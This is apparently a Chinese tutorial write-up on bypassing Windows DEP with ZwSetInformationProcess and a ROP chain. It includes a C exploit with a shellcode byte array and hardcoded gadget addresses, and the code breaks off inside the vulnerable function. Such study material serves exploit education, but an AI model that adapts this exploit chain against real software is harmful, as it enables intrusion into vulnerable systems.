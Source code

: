 了解了_KEXECUTE_OPTIONS的结构就可以用setinformationprocess设置相应的值，只需将第二位设置位1即可，所以关闭DEP的设置为

``` 
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;
ZwSetInformationProcess(
NtCurrentProcess(),  // (HANDLE)-1
ProcessExecuteFlags, // 0x22
&ExecuteFlags, 		 // ptr to 0x2
sizeof(ExecuteFlags)); // 0x4
```

Q：这里有个问题为什么不直接传参调用函数执行
A：答案是这里用的strcpy是，如果直接传参那么参数中肯定会有零字节，所以想到了利用现有的函数调用


T：因为微软为兼容性考虑，如果一个进程的 Permanent 位没有设置，当它加载 DLL时，系统就会对这个 DLL 进行 DEP 兼容性检查，当存在兼容性问题时进程的 DEP 就会被关闭

这是利用这一个trick，绕过DEP，微软设立了一个函数LdrpCheckNXCompatibility
满足下面三个条件之一就会触发
1. 当 DLL 受 SafeDisc 版权保护系统保护时；
2. 当 DLL 包含有.aspcak、.pcle、.sforce 等字节时；
3. Windows Vista 下面当 DLL 包含在注册表“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions”


T：我们可以利用ollyfindaddr插件寻找关闭DEP的起始位置，同时还有一些其他的辅助地址



![][2]

**shellcode的探索过程**

T：retn x指令可以构造rop链，当然执行过程可以归结为下面一句话，在执行当前语句时他的下一条指令是esp的指向，下下一条指令则是esp+4+x，因此rop链的执行顺序就确定了
> 为了满足第一个条件必须将al设置为1，这里利用了一个rop链，但是接着发现在执行关闭DEP代码的时候ebp地址不可写，所以要在关闭DEP之前将可赋值地址写入ebp中，接着又发现esp不够高使得shellcode的被破坏，所以要抬高esp，下面才是执行DEP，还有一个坑在DEP的最后有一个leave操作所以，最后esp=ebp+4所以在retn的时候是返回到ebp+4的位置我们还记得给ebp赋值吗，没错就是这么巧妙，esp再次回去而且是jmp esp的位置一切都是这么巧妙。看起来是偶然的东西其实都是我们一手安排的。

贴出代码

``` 
#include<stdlib.h> 
#include<string.h> 
#include<stdio.h> 
#include<windows.h> 
char shellcode[]=  
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"  
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"  
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"  
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"  
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"  
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"  
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"  
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"  
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"  
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"  
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90"  
"\x52\xE2\x92\x7C"//MOV EAX,1 RETN地址  
"\x85\x8B\x1D\x5D"//修正EBP  
//"\x19\x4A\x97\x7C"//增大ESP  
"\x45\x01\x88\x7c"
"\xB4\xC1\xC5\x7D"//jmp esp  
"\x24\xCD\x93\x7C"//关闭DEP代码的起始位置  
"\xE9\x33\xFF\xFF"//回跳指令  
"\xFF\x90\x90\x90"  
;  
void test()  
{  
      char tt[176];  
```

  [1]: ./images/1.png
  [2]: ./images/2.png 